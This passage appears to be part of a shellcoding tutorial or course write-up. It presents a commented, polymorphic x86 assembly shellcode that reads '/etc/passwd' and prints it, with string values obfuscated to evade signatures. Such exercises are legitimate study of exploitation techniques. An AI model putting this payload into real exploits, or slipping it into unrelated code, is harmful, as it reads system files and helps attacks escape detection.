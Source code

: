 
### Polymorphic Version
Explanation of each lines are added as comments in the code:
```nasm
global _start

section .text

_start:
                                ; clear registers
  sub ebx, ebx                  ; clear ebx
  mul ebx                       ; clear eax, and edx

  ; open('/etc//passwd', NULL)
  add eax, 0x5                  ; open(2)
  push ebx                      ; push NULL
  mov ebx, 0x64777364           ; preparing ebx for 'sswd'
  add bl, 0xF                   ; ebx = 'sswd'
  push ebx                      ; push into stack
  push ebx                      ; push again, but will be overwritten
  xor ebx, 0x5075c10            ; ebx = 'c/pa'
  mov dword [esp], ebx          ; overwrite the top of stack with ebx
  mov dword [esp-4], 0x74652f2f ; 4 bytes above stack = '//et'
  sub esp, 4                    ; adjust the stack
  mov ebx, esp                  ; ebx = current stack address
  int 0x80                      ; syscall open(2)

  ; read(fd, esp, 4095)
  mov cl, 0x3                   ; read(2)
  xchg cl, al                   ; eax = 3, ecx = fd; fd is return value from open(2)
  xchg ecx, ebx                 ; ebx = fd, ecx = <esp_address>
  mov dx, 0xfff                 ; read up to 4095 bytes
  int 0x80                      ; syscall read(2)

  ; write(fd, esp, size);
  xchg eax, edx                 ; edx = size read - return from read(2); eax = 4095
  shr ax, 0x10                  ; clear ax, 0x0fff -> 0x0000
  mov bl, al                    ; clear bl
  add al, 0x4                   ; write(2)
  inc bl                        ; stdout
  int 0x80                      ; syscall write(2)

  ; exit
  xchg eax, ebx                 ; _exit(2)
  int 0x80                      ; syscall _exit(2)
```

### Shellcode Testing
Used the [Ruby script](#ruby-script) to make the compilation of the binary easier.

![](tiny_read_file.gif)
